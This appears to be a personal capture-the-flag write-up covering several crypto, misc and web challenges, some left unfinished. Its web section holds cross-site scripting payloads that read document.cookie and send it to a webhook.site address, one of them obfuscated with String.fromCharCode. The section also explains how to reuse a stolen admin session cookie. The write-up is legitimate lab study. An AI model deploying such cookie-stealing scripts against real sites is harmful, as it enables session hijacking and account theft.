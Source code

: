 ## Crypto

### Lucky Numbers (Easy)

This is the relevant code which takes 2 numbers and determines if the flag will be given to us. The numbers are s and t, which are in the ranges of 20,000-150,000,000,000 and 0-42 respectively.

```python
        n=2**t-1
        sent=False
        for i in range(2,int(n**0.5)+1):
             if (n%i) == 0:
                print("The second number didn't bring me any luck...")
                sent = True
                break
        if sent:
            continue
        u=t-1
        number=(2**u)*(2**(t)-1)
        sqrt_num=math.isqrt(s)
        for i in range(1,sqrt_num+1):
            if s%i==0:
                A.append(i)
                if i!=s//i and s//i!=s:
                    A.append(s//i)      
        total=sum(A)
        if total==s==number:
```

total must be equal to s which must be equal to number. Total is the sum of A, which is a list of ints. // is whole number divide, % is remainder, ** is exponentiation, isqrt is int square root.

The for loop goes from 1 to the square root of s (rounded) plus 1. range is exclusive, so it loops square root of s times. each loop, it checks if the remainder of s divided by i is 0. If it is, that means that s is divisible by i. If it is, it appends i to A, and checks if i is not equal to s // i AND if s //i is not equal to s. Which is to say that neither number is the square root of the other (I think). If that condition is met, s // i is appended to A.

The other component which must be equal, besides total and s, is number. number is equal to 2^u times 2^t -1, where u is t-1

The final requirement is that for i in range 2 to sqrt of n + 1, where n is 2^t -1, n % i must never be equal to 0.

I had a hard time making heads or tails of this math even after looking through it. I figured the algorithms probably had a more elegant description which would make the problem easier to solve. Luckily, GPT4 is quite good at math, and it identified the functions as checking for a prime number and a perfect number respectively. It wrote a script to check for pairs which might satisfy the conditions and made a nice table. I tried a pair which were in the allowed range and it worked. Very impressive

## Misc

### Soulsplitter (Easy)

I wrote a python script to turn the shards back into a soul, then I ran it using the -i flag for interactive mode so I could decode as many souls as I wanted (and so I didn't have to make a main function which takes command line input) (I should probably learn how to do that). The program takes the name of a text file which contains the shards, to make it easy to enter them and test the program. After some trouble with dependencies, I got it to work, but it doesn't work correctly. After adding some test statements, it became clear that a correct QR code was not being generated correctly. Checking the soulsplitter code, it's obviously because I wasn't accounting for the shuffling of the atoms or the shuffling of the shards and the missing shard. It seems like this problem will require some kind of brute force attack.

Vnzydem-Dfl-VYFqaeWvcQ is the soul for the current set of shards s1.txt. You can use it to confirm if the program is working
### Safest Eval (Medium)

https://safest-eval.flu.xxx

This problem links to a website in which you can submit a python function to be run on the server. The python code is evaluated for it's capability to determine if a string is a palindrome and the result is returned. The server files are available. Presumably, you need to write a python function which can get the flag and send it to a webhook or something.

## PWN

### Destiny Digits


## Rev

## Web

### Awesome Study Notes

This challenge features a website programmed in Rust which allows the user to take notes in html format as well as have a moderator check notes for TOS violation. Presumably, we must do a XSS attack with javascript in order to steal the admin cookie from the administrator and get the flag

I was wondering what happended to my `<script>` tag when I entered it in a note, since other html tags were sent back unchanged. Turns out the Rust source code has a sanitizer:

```rust
    let safe = ammonia::Builder::new()
        .tags(hashset!["h1", "p", "div"])
        .add_generic_attribute_prefixes(&["hx-"])
        .clean(&body)
        .to_string();
```

![[Pasted image 20231014142138.png]]

To access the flag, go to: https://awesomenotes.online/note/flag and add a header to the request called Cookie with session=ADMIN_SESSION where ADMIN_SESSION is the token for the admin

### Based Encoding



![[Pasted image 20231014192249.png]]


Final payload:

```html
<script>var xhr=new XMLHttpRequest();
xhr.open("POST","https://webhook.site/a6d36dad-50de-4be0-ae29-8e48474bc7f2",true);
xhr.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
xhr.send("cookie="+encodeURIComponent(document.cookie));</script>
```

However, this doesn't work because the base91 encoding is modified and doesn't use periods or single quotes. The above payload has already had its single quotes replaced by double quotes, but more alterations were needed.

```html
<script>var xhr=new XMLHttpRequest();xhr["open"]("POST","https://webhook" +String["fromCharCode"](46) + "site/3aac4f80"+String["fromCharCode"](45) + "6b5b"+String["fromCharCode"](45) + "442e"+String["fromCharCode"](45) + "a93e"+String["fromCharCode"](45) +"a0503256d4c7",true);xhr["setRequestHeader"]("Content"+String["fromCharCode"](45) +"Type","application/x"+String["fromCharCode"](45) +"www"+String["fromCharCode"](45) +"form"+String["fromCharCode"](45) +"urlencoded");xhr["send"]("cookie="+encodeURIComponent(document["cookie"]));</script>
```
